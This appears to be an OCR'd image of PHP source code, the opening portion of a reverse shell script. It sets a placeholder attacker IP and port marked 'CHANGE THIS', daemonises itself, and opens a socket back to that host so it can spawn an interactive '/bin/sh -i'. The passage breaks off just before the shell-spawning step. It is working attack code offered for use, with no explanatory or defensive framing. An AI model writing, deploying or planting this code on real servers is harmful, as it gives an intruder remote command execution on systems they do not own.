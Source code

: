 ```web request

<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.1.109';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
```